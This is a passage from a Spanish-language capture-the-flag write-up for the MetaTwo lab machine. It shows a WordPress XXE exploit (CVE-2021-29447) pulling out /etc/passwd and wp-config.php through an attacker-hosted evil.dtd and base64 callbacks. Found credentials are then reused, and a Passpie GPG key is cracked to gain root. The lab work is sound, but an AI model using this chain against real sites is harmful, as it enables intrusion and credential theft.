[Tue Aug 27 15:48:47 2024] 10.129.228.95:34176 [200]: GET /evil.dtd                                                                                           
[Tue Aug 27 15:48:47 2024] 10.129.228.95:34176 Closing                                         
[Tue Aug 27 15:48:47 2024] 10.129.228.95:34192 Accepted                                        
[Tue Aug 27 15:48:47 2024] 10.129.228.95:34192 [404]: GET /?p=jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1
LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5m
YtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYj
Q+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8
FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw== - No such file or directory
[Tue Aug 27 15:48:47 2024] 10.129.228.95:34192 Closing
```

Ahora si modificamos el archivo `decode.php`
```php
<?php 
echo zlib_decode(base64_decode('jVRNj5swEL3nV3BspUSGkGSDj22lXjaVuum9MuAFusamNiShv74zY8gmgu5WHtB8vHkezxisMS2/8BCWRZX5d1pplgpXLnIha6MBEcEaDNY5yxxAXjWmjTJFpRfovfA1
LIrPg1zvABTDQo3l8jQL0hmgNny33cYbTiYbSRmai0LUEpm2fBdybxDPjXpHWQssbsejNUeVnYRlmchKycic4FUD8AdYoBDYNcYoppp8lrxSAN/DIpUSvDbBannGuhNYpN6Qe3uS0XUZFhOFKGTc5Hh7ktNYc+kxKUbx1j8mcj6fV7loBY4lRrk6aBuw5m
YtspcOq4LxgAwmJXh97iCqcnjh4j3KAdpT6SJ4BGdwEFoU0noCgk2zK4t3Ik5QQIc52E4zr03AhRYttnkToXxFK/jUFasn2Rjb4r7H3rWyDj6IvK70x3HnlPnMmbmZ1OTYUn8n/XtwAkjLC5Qt9VzlP0XT0gDDIe29BEe15Sst27OxL5QLH2G45kMk+OYj
Q+NqoFkul74jA+QNWiudUSdJtGt44ivtk4/Y/yCDz8zB1mnniAfuWZi8fzBX5gTfXDtBu6B7iv6lpXL+DxSGoX8NPiqwNLVkI+j1vzUes62gRv8nSZKEnvGcPyAEN0BnpTW6+iPaChneaFlmrMy7uiGuPT0j12cIBV8ghvd3rlG9+63oDFseRRE/9Mfvj8
FR2rHPdy3DzGehnMRP+LltfLt2d+0aI9O9wE34hyve2RND7xT7Fw==')); 
?>
```

```console
$ php decode.php                         
root:x:0:0:root:/root:/bin/bash          
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                   
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin                                       
...............................
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin                                  
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bash                            
systemd-timesync:x:999:999:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-coredump:x:998:998:systemd Core Dumper:/:/usr/sbin/nologin               
mysql:x:105:111:MySQL Server,,,:/nonexistent:/bin/false        
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin                               
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
```

Del `/etc/hosts` me interesa que existe un usuario a nivel de sistema llamado `jnelson` y que el servicio FTP se encuentra alojado en el directorio `/srv/ftp` por lo cual quizás se alojen archivos de configuración allí.

Podemos intentar iniciar sesión con el usuario `jnelson` a través del SSH

```console
$ ssh jnelson@metapress.htb
The authenticity of host 'metapress.htb (10.129.228.95)' can't be established.
ED25519 key fingerprint is SHA256:0PexEedxcuaYF8COLPS2yzCpWaxg8+gsT1BRIpx/OSY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'metapress.htb' (ED25519) to the list of known hosts.
jnelson@metapress.htb's password: 
Permission denied, please try again.
```

Pero no funciona.

Probando a recuperar los archivos `/srv/ftp/vsftpd.conf` y `/etc/vsftpd.conf` no conseguimos nada.
```console
[Tue Aug 27 15:55:08 2024] 10.129.228.95:49608 Accepted
[Tue Aug 27 15:55:08 2024] 10.129.228.95:49608 [200]: GET /evil.dtd
[Tue Aug 27 15:55:08 2024] 10.129.228.95:49608 Closing
[Tue Aug 27 15:55:09 2024] 10.129.228.95:49618 Accepted
[Tue Aug 27 15:55:09 2024] 10.129.228.95:49618 [200]: GET /evil.dtd
[Tue Aug 27 15:55:09 2024] 10.129.228.95:49618 Closing
```

Vamos a conseguir el archivo de configuración de WordPress para conseguir las credenciales de base de datos y comprobar si se reutilizan para el usuario `jnelson`

```console
$ sudo python3 PoC.py -l 10.10.14.125 -p 80 -f ../wp-config.php

    ╔═╗╦  ╦╔═╗     
    ║  ╚╗╔╝║╣────2021-29447
    ╚═╝ ╚╝ ╚═╝
    Written By (Isa Ebrahim - 0xRar) on January, 2023

    ═══════════════════════════════════════════════════════════════════════════
    [*] Title: Wordpress XML parsing issue in the Media Library leading to XXE
    [*] Affected versions: Wordpress 5.6 - 5.7
    [*] Patched version: Wordpress 5.7.1
    [*] Installation version: PHP 8
    ═══════════════════════════════════════════════════════════════════════════
    
[+] payload.wav was created.
[+] evil.dtd was created.
[+] manually upload the payload.wav file to the Media Library.
[+] wait for the GET request.

[Tue Aug 27 16:00:38 2024] PHP 8.2.20 Development Server (http://0.0.0.0:80) started
^[[A^[[B[Tue Aug 27 16:00:44 2024] 10.129.228.95:37876 Accepted
[Tue Aug 27 16:00:44 2024] 10.129.228.95:37876 [200]: GET /evil.dtd
[Tue Aug 27 16:00:44 2024] 10.129.228.95:37876 Closing
[Tue Aug 27 16:00:44 2024] 10.129.228.95:37892 Accepted
[Tue Aug 27 16:00:44 2024] 10.129.228.95:37892 [404]: GET /?p=jVVZU/JKEH2+VvkfhhKMoARUQBARAoRNIEDCpgUhIRMSzEYyYVP87TdBBD71LvAANdNzTs/p6dMPaUMyTk9CgQBgJAg0ToVAFwFy/gsc4njOgkDUTdDVTaFhQssCgdDpiQBFWYMXAMtn2TpRI7ErgPGKPsGAP3l68glXW9HN6gHEtqC5Rf9+vk2Trf9x3uAsa+Ek8eN8g6DpLtXKuxix2ygxyzDCzMwteoX28088SbfQr2mUKJpxIRR9zClu1PHZ/FcWOYkzLYgA0t0LAVkDYxNySNYmh0ydHwVa+A+GXIlo0eSWxEZiXOUjxxSu+gcaXVE45ECtDIiDvK5hCIwlTps4S5JsAVl0qQXd5tEvPFS1SjDbmnwR7LcLNFsjmRK1VUtEBlzu7nmIYBr7kqgQcYZbdFxC/C9xrvRuXKLep1lZzhRWVdaI1m7q88ov0V8KO7T4fyFnCXr/qEK/7NN01dkWOcURa6/hWeby9AQEAGE7z1dD8tgpjK6BtibPbAie4MoCnCYAmlOQhW8jM5asjSG4wWN42F04VpJoMyX2iew7PF8fLO159tpFKkDElhQZXV4ZC9iIyIF1Uh2948/3vYy/2WoWeq+51kq524zMXqeYugXa4+WtmsazoftvN6HJXLtFssdM2NIre/18eMBfj20jGbkb9Ts2F6qUZr5AvE3EJoMwv9DJ7n3imnxOSAOzq3RmvnIzFjPEt9SA832jqFLFIplny/XDVbDKpbrMcY3I+mGCxxpDNFrL80dB2JCk7IvEfRWtNRve1KYFWUba2bl2WerNB+/v5GXhI/c2e+qtvlHUqXqO/FMpjFZh3vR6qfBUTg4Tg8Doo1iHHqOXyc+7fERNkEIqL1zgZnD2NlxfFNL+O3VZb08S8RhqUndU9BvFViGaqDJHFC9JJjsZh65qZ34hKr6UAmgSDcsik36e49HuMjVSMnNvcF4KPHzchwfWRng4ryXxq2V4/dF6vPXk/6UWOybscdQhrJinmIhGhYqV9lKRtTrCm0lOnXaHdsV8Za+DQvmCnrYooftCn3/oqlwaTju59E2wnC7j/1iL/VWwyItID289KV+6VNaNmvE66fP6Kh6cKkN5UFts+kD4qKfOhxWrPKr5CxWmQnbKflA/q1OyUBZTv9biD6Uw3Gqf55qZckuRAJWMcpbSvyzM4s2uBOn6Uoh14Nlm4cnOrqRNJzF9ol+ZojX39SPR60K8muKrRy61bZrDKNj7FeNaHnAaWpSX+K6RvFsfZD8XQQpgC4PF/gAqOHNFgHOo6AY0rfsjYAHy9mTiuqqqC3DXq4qsvQIJIcO6D4XcUfBpILo5CVm2YegmCnGm0/UKDO3PB2UtuA8NfW/xboPNk9l28aeVAIK3dMVG7txBkmv37kQ8SlA24Rjp5urTfh0/vgAe8AksuA82SzcIpuRI53zfTk/+Ojzl3c4VYNl8ucWyAAfYzuI2X+w0RBawjSPCuTN3tu7lGJZiC1AAoryfMiac2U5CrO6a2Y7AhV0YQWdYudPJwp0x76r/Nw== - No such file or directory

```

Después de probar un rato intentando acertar rutas absolutas, probé una ruta relativa `../wp-config.php` y funcionó.


Ahora si reemplazamos el base64 de `decode.php`
```console
$ php decode.php 
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

Vemos las credenciales de la base de datos
```php
/** MySQL database username */           
define( 'DB_USER', 'blog' );             
/** MySQL database password */           
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
```

Y también vemos las credenciales para acceder al FTP
```php
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );
```

Estas credenciales no son válidas para acceder por SSH
```console
$ ssh janderson@metapress.htb
janderson@metapress.htb's password: 
Permission denied, please try again.
janderson@metapress.htb's password: 
Permission denied, please try again.
janderson@metapress.htb's password:
```

## Information Leakage -> Foothold
Podemos iniciar sesión por FTP
```console
$ ftp metapress.htb@ftp.metapress.htb
Connected to ftp.metapress.htb.

220 ProFTPD Server (Debian) [::ffff:10.129.228.95]
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Nos encontramos un archivo `send_email.php` dentro del directorio `mailer`

```console
ftp> dir                                                                                  
229 Entering Extended Passive Mode (|||25193|)                                            
150 Opening ASCII mode data connection for file list                                      
drwxr-xr-x   5 metapress.htb metapress.htb     4096 Oct  5  2022 blog                     
drwxr-xr-x   3 metapress.htb metapress.htb     4096 Oct  5  2022 mailer                   
226 Transfer complete                                                                     
ftp> cd mailer                                                                            
250 CWD command successful                                                                
ftp> dir                                                                                  
229 Entering Extended Passive Mode (|||42441|)                                            
150 Opening ASCII mode data connection for file list                                      
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer                
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
```

```php
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
```

Contiene credenciales para `jnelson` en un servicio de mensajería, vamos a probar si se reutilizan credenciales esta vez.

```console
$ sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 25 12:51:26 2022 from 10.10.14.23
jnelson@meta2:~$ whoami
jnelson
```

Y vemos que sí.

Podemos ver la flag de usuario.
```console
jnelson@meta2:~$ cat user.txt
d20d0fec8615....
```

# Privilege Escalation
En el directorio personal de `jnelson` vemos un directorio oculto `.passpie` esto me llamó la atención ya que no se que es.


> Passpie is a command line tool to manage passwords from the terminal with a colorful and configurable interface. Use a master passphrase to decrypt login credentials, copy passwords to clipboard, syncronize with a git repository, check the state of your passwords, and more.

Una vez sabiendo que es...

```console
jnelson@meta2:~$ passpie init
Error: Path exists '/home/jnelson/.passpie'. `--force` to overwrite
jnelson@meta2:~$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
jnelson@meta2:~$ passpie copy root
Passphrase: 
Error: Wrong passphrase
```

Vemos que `passpie` alberga la credencial de `root` pero al probar si la credencial de `janderson` se reutilizaba aquí vemos que no.

> Password files are encrypted using [GnuPG](https://www.gnupg.org/) and saved into yaml text files. Passpie supports **Linux**, **OSX** and **Windows**.

Esto significa que la contraseña de `root` debe de encriptada en formato GPG.

Fácilmente podemos encontrar donde está esta credencial.
```console
jnelson@meta2:~/.passpie/ssh$ ls
jnelson.pass  root.pass
```

```console
jnelson@meta2:~/.passpie/ssh$ cat root.pass 
comment: ''
fullname: root@ssh
login: root
modified: 2022-06-26 08:58:15.621572
name: ssh
password: '-----BEGIN PGP MESSAGE-----


  hQEOA6I+wl+LXYMaEAP/T8AlYP9z05SEST+Wjz7+IB92uDPM1RktAsVoBtd3jhr2

  nAfK00HJ/hMzSrm4hDd8JyoLZsEGYphvuKBfLUFSxFY2rjW0R3ggZoaI1lwiy/Km

  yG2DF3W+jy8qdzqhIK/15zX5RUOA5MGmRjuxdco/0xWvmfzwRq9HgDxOJ7q1J2ED

  /2GI+i+Gl+Hp4LKHLv5mMmH5TZyKbgbOL6TtKfwyxRcZk8K2xl96c3ZGknZ4a0Gf

  iMuXooTuFeyHd9aRnNHRV9AQB2Vlg8agp3tbUV+8y7szGHkEqFghOU18TeEDfdRg

  krndoGVhaMNm1OFek5i1bSsET/L4p4yqIwNODldTh7iB0ksB/8PHPURMNuGqmeKw

  mboS7xLImNIVyRLwV80T0HQ+LegRXn1jNnx6XIjOZRo08kiqzV2NaGGlpOlNr3Sr

  lpF0RatbxQGWBks5F3o=

  =uh1B

  -----END PGP MESSAGE-----

  '
```

Existe una utilidad llamada `gpg2john` para convertir una clave privada en formato crackeable.

Podemos intentar eso.

El archivo oculto `.keys` contiene tanto la clave pública como privada utilizada para encriptar las credenciales.

```console
jnelson@meta2:~/.passpie$ ls -la
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 4 jnelson jnelson 4096 Oct 25  2022 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

```console
$ gpg2john .keys

File .keys
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::.keys
```

Ahora podemos intentar crackear este hash con `john`

```console
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:01 DONE (2024-08-27 16:20) 0.6993g/s 114.6p/s 114.6c/s 114.6C/s ginger..blink182
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Y la passphrase es `blink182`

Ahora podemos exportar las credenciales a un archivo donde están las credenciales en texto claro.



```console
jnelson@meta2:~/.passpie$ passpie export /tmp/passwords.db
Passphrase:
jnelson@meta2:~/.passpie$ 
```

```console
jnelson@meta2:~/.passpie$ cat /tmp/passwords.db
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```

Vemos que la credencial de `root` es `p7qfAZt4_A1xo_0x` y ya podríamos migrar al superusuario.

```console
jnelson@meta2:~/.passpie$ su -
Password: 
root@meta2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Podemos leer la flag de `root`
```console
root@meta2:~# cat /root/root.txt 
43013fd43ba23....
```

¡Y ya estaría!

Happy Hacking! 🚀